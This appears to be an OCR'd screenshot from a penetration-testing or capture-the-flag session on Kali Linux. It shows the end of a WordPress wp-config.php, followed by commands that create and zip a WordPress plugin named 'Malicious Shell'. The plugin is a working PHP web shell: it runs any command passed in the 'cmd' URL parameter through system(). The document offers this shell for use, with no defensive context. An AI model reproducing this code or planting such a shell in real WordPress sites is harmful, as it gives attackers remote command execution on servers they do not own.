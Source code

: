 /* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ 

creating a Malicious plugon:

#create a simple plugin with a web shell
mkdir malicious-plugin
echo '<?php
/**
 * Plugin Name: Malicious Shell
 * Version: 1.0
 */
 
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>' > malicious-plugin/malicious-shell.php

#zip the plug
zip -r malicious-plugin.zip malicious-plugin/